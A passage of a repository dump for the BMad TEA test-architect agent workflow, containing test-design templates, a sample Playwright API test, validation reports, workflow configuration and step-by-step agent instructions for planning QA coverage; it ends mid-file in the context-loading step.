| Work Item   | Owner        | Target Milestone (Optional) | Dependencies/Notes |
| ----------- | ------------ | --------------------------- | ------------------ |
| {Work item} | {QA/Dev/etc} | {Milestone or date}         | {Notes}            |
| {Work item} | {QA/Dev/etc} | {Milestone or date}         | {Notes}            |

---

## Tooling & Access

**Include only if non-standard tools or access requests are required.**

| Tool or Service   | Purpose   | Access Required | Status            |
| ----------------- | --------- | --------------- | ----------------- |
| {Tool or Service} | {Purpose} | {Access needed} | {Ready / Pending} |
| {Tool or Service} | {Purpose} | {Access needed} | {Ready / Pending} |

**Access requests needed (if any):**

- [ ] {Access to request}

---

## Interworking & Regression

**Services and components impacted by this feature:**

| Service/Component | Impact              | Regression Scope                | Validation Steps              |
| ----------------- | ------------------- | ------------------------------- | ----------------------------- |
| **{Service}**     | {How it's affected} | {What existing tests must pass} | {How to verify no regression} |

**Regression test strategy:**

- {Describe which existing test suites must pass before release}
- {Note any cross-team coordination needed for regression validation}

---

## Appendix A: Code Examples & Tagging

**Playwright Tags for Selective Execution:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';

// P0 critical test
test('@P0 @API @Security unauthenticated request returns 401', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/endpoint',
    body: { data: 'test' },
    skipAuth: true,
  });

  expect(status).toBe(401);
  expect(body.error).toContain('unauthorized');
});

// P1 integration test
test('@P1 @Integration data syncs correctly', async ({ apiRequest }) => {
  // Seed data
  await apiRequest({
    method: 'POST',
    path: '/api/seed',
    body: {
      /* test data */
    },
  });

  // Validate
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/resource',
  });

  expect(status).toBe(200);
  expect(body).toHaveProperty('data');
});
```

**Run specific tags:**

```bash
# Run only P0 tests
npx playwright test --grep @P0

# Run P0 + P1 tests
npx playwright test --grep "@P0|@P1"

# Run only security tests
npx playwright test --grep @Security

# Run all Playwright tests in PR (default)
npx playwright test
```

---

## Appendix B: Knowledge Base References

- **Risk Governance**: `risk-governance.md` - Risk scoring methodology
- **Test Priorities Matrix**: `test-priorities-matrix.md` - P0-P3 criteria
- **Test Levels Framework**: `test-levels-framework.md` - E2E vs API vs Unit selection
- **Test Quality**: `test-quality.md` - Definition of Done (no hard waits, <300 lines, <1.5 min)

---

**Generated by:** BMad TEA Agent
**Workflow:** `_bmad/tea/testarch/bmad-testarch-test-design`
**Version:** 4.0 (BMad v6)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/test-design-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
---

# Test Design: Epic {epic_num} - {epic_title}

**Date:** {date}
**Author:** {user_name}
**Status:** Draft / Approved

---

## Executive Summary

**Scope:** {design_level} test design for Epic {epic_num}

**Risk Summary:**

- Total risks identified: {total_risks}
- High-priority risks (≥6): {high_priority_count}
- Critical categories: {top_categories}

**Coverage Summary:**

- P0 scenarios: {p0_count} ({p0_hours} hours)
- P1 scenarios: {p1_count} ({p1_hours} hours)
- P2/P3 scenarios: {p2p3_count} ({p2p3_hours} hours)
- **Total effort**: {total_hours} hours (~{total_days} days)

---

## Not in Scope

| Item       | Reasoning      | Mitigation            |
| ---------- | -------------- | --------------------- |
| **{Item}** | {Why excluded} | {How risk is handled} |

---

## Risk Assessment

### High-Priority Risks (Score ≥6)

| Risk ID | Category | Description   | Probability | Impact | Score | Mitigation   | Owner   | Timeline |
| ------- | -------- | ------------- | ----------- | ------ | ----- | ------------ | ------- | -------- |
| R-001   | SEC      | {description} | 2           | 3      | 6     | {mitigation} | {owner} | {date}   |
| R-002   | PERF     | {description} | 3           | 2      | 6     | {mitigation} | {owner} | {date}   |

### Medium-Priority Risks (Score 3-4)

| Risk ID | Category | Description   | Probability | Impact | Score | Mitigation   | Owner   |
| ------- | -------- | ------------- | ----------- | ------ | ----- | ------------ | ------- |
| R-003   | TECH     | {description} | 2           | 2      | 4     | {mitigation} | {owner} |
| R-004   | DATA     | {description} | 1           | 3      | 3     | {mitigation} | {owner} |

### Low-Priority Risks (Score 1-2)

| Risk ID | Category | Description   | Probability | Impact | Score | Action  |
| ------- | -------- | ------------- | ----------- | ------ | ----- | ------- |
| R-005   | OPS      | {description} | 1           | 2      | 2     | Monitor |
| R-006   | BUS      | {description} | 1           | 1      | 1     | Monitor |

### Risk Category Legend

- **TECH**: Technical/Architecture (flaws, integration, scalability)
- **SEC**: Security (access controls, auth, data exposure)
- **PERF**: Performance (SLA violations, degradation, resource limits)
- **DATA**: Data Integrity (loss, corruption, inconsistency)
- **BUS**: Business Impact (UX harm, logic errors, revenue)
- **OPS**: Operations (deployment, config, monitoring)

---

## Entry Criteria

- [ ] Requirements and assumptions agreed upon by QA, Dev, PM
- [ ] Test environment provisioned and accessible
- [ ] Test data available or factories ready
- [ ] Feature deployed to test environment
- [ ] {Epic-specific entry criteria}

## Exit Criteria

- [ ] All P0 tests passing
- [ ] All P1 tests passing (or failures triaged)
- [ ] No open high-priority / high-severity bugs
- [ ] Test coverage agreed as sufficient
- [ ] {Epic-specific exit criteria}

## Project Team (Optional)

**Include only if roles/names are known or responsibility mapping is needed; otherwise omit.**

| Name   | Role     | Testing Responsibilities |
| ------ | -------- | ------------------------ |
| {Name} | QA Lead  | {Responsibilities}       |
| {Name} | Dev Lead | {Responsibilities}       |
| {Name} | PM       | {Responsibilities}       |

---

## Test Coverage Plan

### P0 (Critical) - Run on every commit

**Criteria**: Blocks core journey + High risk (≥6) + No workaround

| Requirement   | Test Level | Risk Link | Test Count | Owner | Notes   |
| ------------- | ---------- | --------- | ---------- | ----- | ------- |
| {requirement} | E2E        | R-001     | 3          | QA    | {notes} |
| {requirement} | API        | R-002     | 5          | QA    | {notes} |

**Total P0**: {p0_count} tests, {p0_hours} hours

### P1 (High) - Run on PR to main

**Criteria**: Important features + Medium risk (3-4) + Common workflows

| Requirement   | Test Level | Risk Link | Test Count | Owner | Notes   |
| ------------- | ---------- | --------- | ---------- | ----- | ------- |
| {requirement} | API        | R-003     | 4          | QA    | {notes} |
| {requirement} | Component  | -         | 6          | DEV   | {notes} |

**Total P1**: {p1_count} tests, {p1_hours} hours

### P2 (Medium) - Run nightly/weekly

**Criteria**: Secondary features + Low risk (1-2) + Edge cases

| Requirement   | Test Level | Risk Link | Test Count | Owner | Notes   |
| ------------- | ---------- | --------- | ---------- | ----- | ------- |
| {requirement} | API        | R-004     | 8          | QA    | {notes} |
| {requirement} | Unit       | -         | 15         | DEV   | {notes} |

**Total P2**: {p2_count} tests, {p2_hours} hours

### P3 (Low) - Run on-demand

**Criteria**: Nice-to-have + Exploratory + Performance benchmarks

| Requirement   | Test Level | Test Count | Owner | Notes   |
| ------------- | ---------- | ---------- | ----- | ------- |
| {requirement} | E2E        | 2          | QA    | {notes} |
| {requirement} | Unit       | 8          | DEV   | {notes} |

**Total P3**: {p3_count} tests, {p3_hours} hours

---

## Execution Order

### Smoke Tests (<5 min)

**Purpose**: Fast feedback, catch build-breaking issues

- [ ] {scenario} (30s)
- [ ] {scenario} (45s)
- [ ] {scenario} (1min)

**Total**: {smoke_count} scenarios

### P0 Tests (<10 min)

**Purpose**: Critical path validation

- [ ] {scenario} (E2E)
- [ ] {scenario} (API)
- [ ] {scenario} (API)

**Total**: {p0_count} scenarios

### P1 Tests (<30 min)

**Purpose**: Important feature coverage

- [ ] {scenario} (API)
- [ ] {scenario} (Component)

**Total**: {p1_count} scenarios

### P2/P3 Tests (<60 min)

**Purpose**: Full regression coverage

- [ ] {scenario} (Unit)
- [ ] {scenario} (API)

**Total**: {p2p3_count} scenarios

---

## Resource Estimates

### Test Development Effort

| Priority  | Count             | Hours/Test | Total Hours       | Notes                   |
| --------- | ----------------- | ---------- | ----------------- | ----------------------- |
| P0        | {p0_count}        | 2.0        | {p0_hours}        | Complex setup, security |
| P1        | {p1_count}        | 1.0        | {p1_hours}        | Standard coverage       |
| P2        | {p2_count}        | 0.5        | {p2_hours}        | Simple scenarios        |
| P3        | {p3_count}        | 0.25       | {p3_hours}        | Exploratory             |
| **Total** | **{total_count}** | **-**      | **{total_hours}** | **~{total_days} days**  |

### Prerequisites

**Test Data:**

- {factory_name} factory (faker-based, auto-cleanup)
- {fixture_name} fixture (setup/teardown)

**Tooling:**

- {tool} for {purpose}
- {tool} for {purpose}

**Environment:**

- {env_requirement}
- {env_requirement}

---

## Quality Gate Criteria

### Pass/Fail Thresholds

- **P0 pass rate**: 100% (no exceptions)
- **P1 pass rate**: ≥95% (waivers required for failures)
- **P2/P3 pass rate**: ≥90% (informational)
- **High-risk mitigations**: 100% complete or approved waivers

### Coverage Targets

- **Critical paths**: ≥80%
- **Security scenarios**: 100%
- **Business logic**: ≥70%
- **Edge cases**: ≥50%

### Non-Negotiable Requirements

- [ ] All P0 tests pass
- [ ] No high-risk (≥6) items unmitigated
- [ ] Security tests (SEC category) pass 100%
- [ ] Performance targets met (PERF category)

---

## Mitigation Plans

### R-001: {Risk Description} (Score: 6)

**Mitigation Strategy:** {detailed_mitigation}
**Owner:** {owner}
**Timeline:** {date}
**Status:** Planned / In Progress / Complete
**Verification:** {how_to_verify}

### R-002: {Risk Description} (Score: 6)

**Mitigation Strategy:** {detailed_mitigation}
**Owner:** {owner}
**Timeline:** {date}
**Status:** Planned / In Progress / Complete
**Verification:** {how_to_verify}

---

## Assumptions and Dependencies

### Assumptions

1. {assumption}
2. {assumption}
3. {assumption}

### Dependencies

1. {dependency} - Required by {date}
2. {dependency} - Required by {date}

### Risks to Plan

- **Risk**: {risk_to_plan}
  - **Impact**: {impact}
  - **Contingency**: {contingency}

---

---

## Follow-on Workflows (Manual)

- Run `*atdd` to generate failing P0 tests (separate workflow; not auto-run).
- Run `*automate` for broader coverage once implementation exists.

---

## Approval

**Test Design Approved By:**

- [ ] Product Manager: {name} Date: {date}
- [ ] Tech Lead: {name} Date: {date}
- [ ] QA Lead: {name} Date: {date}

**Comments:**

---

---

---

## Interworking & Regression

| Service/Component | Impact         | Regression Scope                |
| ----------------- | -------------- | ------------------------------- |
| **{Service}**     | {How affected} | {Existing tests that must pass} |

---

## Appendix

### Knowledge Base References

- `risk-governance.md` - Risk classification framework
- `probability-impact.md` - Risk scoring methodology
- `test-levels-framework.md` - Test level selection
- `test-priorities-matrix.md` - P0-P3 prioritization

### Related Documents

- PRD: {prd_link}
- Epic: {epic_link}
- Architecture: {arch_link}
- Tech Spec: {tech_spec_link}

---

**Generated by**: BMad TEA Agent - Test Architect Module
**Workflow**: `_bmad/tea/testarch/bmad-testarch-test-design`
**Version**: 4.0 (BMad v6)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-test-design
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-test-design
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-test-design

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-detect-mode.md: 93 lines [GOOD]
- steps-c/step-02-load-context.md: 112 lines [GOOD]
- steps-c/step-03-risk-and-testability.md: 76 lines [GOOD]
- steps-c/step-04-coverage-plan.md: 88 lines [GOOD]
- steps-c/step-05-generate-output.md: 85 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: test-design-architecture-template.md, test-design-qa-template.md, test-design-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-generate-output.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-test-design
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-test-design
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-test-design

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-detect-mode.md: 92 lines [GOOD]
- steps-c/step-02-load-context.md: 111 lines [GOOD]
- steps-c/step-03-risk-and-testability.md: 75 lines [GOOD]
- steps-c/step-04-coverage-plan.md: 87 lines [GOOD]
- steps-c/step-05-generate-output.md: 84 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-detect-mode.md: Init [PASS]
- steps-c/step-02-load-context.md: Middle [PASS]
- steps-c/step-03-risk-and-testability.md: Middle [PASS]
- steps-c/step-04-coverage-plan.md: Middle [PASS]
- steps-c/step-05-generate-output.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: test-design-architecture-template.md, test-design-qa-template.md, test-design-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-generate-output.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 8 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-test-design

    ## Create Mode (steps-c)
    - step-01-detect-mode.md

- step-02-load-context.md
- step-03-risk-and-testability.md
- step-04-coverage-plan.md
- step-05-generate-output.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/test-design-architecture.md (system-level)

- {test_artifacts}/test-design-qa.md (system-level)
- {test_artifacts}/test-design-epic-{epic_num}.md (epic-level)
```

## File: `src/workflows/testarch/bmad-testarch-test-design/workflow.md`
```markdown
---
name: bmad-testarch-test-design
description: Create system-level or epic-level test plans. Use when user says 'lets design test plan' or 'I want to create test strategy'
web_bundle: true
---

# Test Design and Risk Assessment

**Goal:** Epic-level test plan (Phase 4)

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-detect-mode.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-test-design/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-test-design
name: bmad-testarch-test-design
# prettier-ignore
description: 'Create system-level or epic-level test plans. Use when the user says "lets design test plan" or "I want to create test strategy"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
# Note: Template selection is mode-based (see instructions.md Step 1.5):
#   - System-level: test-design-architecture-template.md + test-design-qa-template.md
#   - Epic-level: test-design-template.md (unchanged)
template: "./test-design-template.md"

# Variables and inputs
variables:
  design_level: "full" # full, targeted, minimal - scope of design effort
  mode: "auto-detect" # auto-detect (default), system-level, epic-level
  test_stack_type: "auto" # auto, frontend, backend, fullstack - from config or auto-detected

# Output configuration
# Note: Actual output file determined dynamically based on mode detection
# Declared outputs for new workflow format
outputs:
  # System-Level Mode (Phase 3) - TWO documents
  - id: test-design-architecture
    description: "System-level test architecture: Architectural concerns, testability gaps, NFR requirements for Architecture/Dev teams"
    path: "{test_artifacts}/test-design-architecture.md"
    mode: system-level
    audience: architecture

  - id: test-design-qa
    description: "System-level test design: Test execution recipe, coverage plan, pre-implementation setup for QA team"
    path: "{test_artifacts}/test-design-qa.md"
    mode: system-level
    audience: qa

  - id: test-design-handoff
    description: "TEA → BMAD handoff document: Bridges test design outputs with epic/story decomposition"
    path: "{test_artifacts}/test-design/{project_name}-handoff.md"
    mode: system-level
    audience: bmad-integration

  # Epic-Level Mode (Phase 4) - ONE document (unchanged)
  - id: epic-level
    description: "Epic-level test plan (Phase 4)"
    path: "{test_artifacts}/test-design-epic-{epic_num}.md"
    mode: epic-level
# Note: No default_output_file - mode detection determines which outputs to write

# Required tools
required_tools:
  - read_file # Read PRD, epics, stories, architecture docs
  - write_file # Create test design document
  - list_files # Find related documentation
  - search_repo # Search for existing tests and patterns

tags:
  - qa
  - planning
  - test-architect
  - risk-assessment
  - coverage

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-01-detect-mode.md`
```markdown
---
name: 'step-01-detect-mode'
description: 'Determine system-level vs epic-level mode and validate prerequisites'
nextStepFile: './step-02-load-context.md'
outputFile: '{test_artifacts}/test-design-progress.md'
---

# Step 1: Detect Mode & Prerequisites

## STEP GOAL

Determine whether to run **System-Level** or **Epic-Level** test design, and confirm required inputs are available.

## MANDATORY EXECUTION RULES

### Universal Rules

- 📖 Read this entire step file before taking any action
- ✅ Speak in `{communication_language}`
- 🚫 Do not load the next step until this step is complete

### Role Reinforcement

- ✅ You are the **Master Test Architect**
- ✅ You prioritize risk-based, evidence-backed decisions

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Mode Detection (Priority Order)

### A) User Intent (Highest Priority)

Use explicit intent if the user already indicates scope:

- **PRD + ADR (no epic/stories)** → **System-Level Mode**
- **Epic + Stories (no PRD/ADR)** → **Epic-Level Mode**
- **Both PRD/ADR + Epic/Stories** → Prefer **System-Level Mode** first

If intent is unclear, ask:

> "Should I create (A) **System-level** test design (PRD + ADR → Architecture + QA docs), or (B) **Epic-level** test design (Epic → single test plan)?"

### B) File-Based Detection (BMad-Integrated)

If user intent is unclear:

- If `{implementation_artifacts}/sprint-status.yaml` exists → **Epic-Level Mode**
- Otherwise → **System-Level Mode**

### C) Ambiguous → Ask

If mode still unclear, ask the user to choose (A) or (B) and **halt** until they respond.

---

## 2. Prerequisite Check (Mode-Specific)

### System-Level Mode Requires:

- PRD (functional + non-functional requirements)
- ADR or architecture decision records
- Architecture or tech-spec document

### Epic-Level Mode Requires:

- Epic and/or story requirements with acceptance criteria
- Architecture context (if available)

### HALT CONDITIONS

If required inputs are missing **and** the user cannot provide them:

- **System-Level**: "Please provide PRD + ADR/architecture docs to proceed."
- **Epic-Level**: "Please provide epic/story requirements or acceptance criteria to proceed."

---

## 3. Confirm Mode

State which mode you will use and why. Then proceed.

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-detect-mode']
  lastStep: 'step-01-detect-mode'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-detect-mode'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-detect-mode'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/test-design-progress.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display:

"📋 **Workflow Resume — Test Design and Risk Assessment**

**Last saved:** {lastSaved}
**Steps completed:** {stepsCompleted.length} of 5

1. ✅/⬜ Detect Mode (step-01-detect-mode)
2. ✅/⬜ Load Context (step-02-load-context)
3. ✅/⬜ Risk & Testability (step-03-risk-and-testability)
4. ✅/⬜ Coverage Plan (step-04-coverage-plan)
5. ✅/⬜ Generate Output (step-05-generate-output)"

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-detect-mode'` → `./step-02-load-context.md`
- `'step-02-load-context'` → `./step-03-risk-and-testability.md`
- `'step-03-risk-and-testability'` → `./step-04-coverage-plan.md`
- `'step-04-coverage-plan'` → `./step-05-generate-output.md`
- `'step-05-generate-output'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step
- Re-executing completed steps

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-test-design/steps-c/step-02-load-context.md`
```markdown
---
name: 'step-02-load-context'
description: 'Load documents, configuration, and knowledge fragments for the chosen mode'
nextStepFile: './step-03-risk-and-testability.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/test-design-progress.md'
---

# Step 2: Load Context & Knowledge Base

## STEP GOAL

Load the required documents, config flags, and knowledge fragments needed to produce accurate test design outputs.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🎯 Only load artifacts required for the selected mode

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Load Configuration

From `{config_source}`:

- Read `tea_use_playwright_utils`
- Read `tea_use_pactjs_utils`
- Read `tea_pact_mcp`
- Read `tea_browser_automation`
- Read `test_stack_type` (if not set, default to `"auto"`)
- Note `test_artifacts`

**Stack Detection** (for context-aware loading):

If `test_stack_type` is `"auto"` or not configured, infer `{detected_stack}` by scanning `{project-root}`:

- **Frontend indicators**: `playwright.config.*`, `cypress.config.*`, `package.json` with react/vue/angular
- **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`, `Gemfile`, `Cargo.toml`
- **Both present** → `fullstack`; only frontend → `frontend`; only backend → `backend`
- Explicit `test_stack_type` overrides auto-detection

---

## 2. Load Project Artifacts (Mode-Specific)

### System-Level Mode (Phase 3)

Load:

- PRD (FRs + NFRs)
- ADRs or architecture decisions
- Architecture / tech-spec document
- Epics (for scope)

Extract:

- Tech stack & dependencies
- Integration points
- NFRs (performance, security, reliability, compliance)

### Epic-Level Mode (Phase 4)

Load:

- Epic and story docs with acceptance criteria
- PRD (if available)
- Architecture / tech-spec (if available)
- Prior system-level test-design outputs (if available)

Extract:

- Testable requirements
- Integration points
- Known coverage gaps

---

## 3. Analyze Existing Test Coverage (Epic-Level)

If epic-level:

- Scan the repository for existing tests (search for `tests/`, `spec`, `e2e`, `api` folders)
- Identify coverage gaps and flaky areas
- Note existing fixture and test patterns

### Browser Exploration (if `tea_browser_automation` is `cli` or `auto`)

> **Fallback:** If CLI is not installed, fall back to MCP (if available) or skip browser exploration and rely on code/doc analysis.

**CLI Exploration Steps:**
All commands use the same named session to target the correct browser:

1. `playwright-cli -s=tea-explore open <target_url>`
2. `playwright-cli -s=tea-explore snapshot` → capture page structure and element refs
3. `playwright-cli -s=tea-explore screenshot --filename={test_artifacts}/exploration/explore-<page>.png`
4. Analyze snapshot output to identify testable elements and flows
5. `playwright-cli -s=tea-explore close`

Store artifacts under `{test_artifacts}/exploration/`

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-explore close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

---

### Tiered Knowledge Loading

Load fragments based on their `tier` classification in `tea-index.csv`:

1. **Core tier** (always load): Foundational fragments required for this workflow
2. **Extended tier** (load on-demand): Load when deeper analysis is needed or when the user's context requires it
3. **Specialized tier** (load only when relevant): Load only when the specific use case matches (e.g., contract-testing only for microservices, email-auth only for email flows)

> **Context Efficiency**: Loading only core fragments reduces context usage by 40-50% compared to loading all fragments.

### Playwright Utils Loading Profiles

**If `tea_use_playwright_utils` is enabled**, select the appropriate loading profile:

- **API-only profile** (when `{detected_stack}` is `backend` or no `page.goto`/`page.locator` found in test files):
  Load: `overview`, `api-request`, `auth-session`, `recurse` (~1,800 lines)

- **Full UI+API profile** (when `{detected_stack}` is `frontend`/`fullstack` or browser tests detected):
  Load: all Playwright Utils core fragments (~4,500 lines)

**Detection**: Scan `{test_dir}` for files containing `page.goto` or `page.locator`. If none found, use API-only profile.

### Pact.js Utils Loading

**If `tea_use_pactjs_utils` is enabled** (and `{detected_stack}` is `backend` or `fullstack`, or microservices indicators detected):

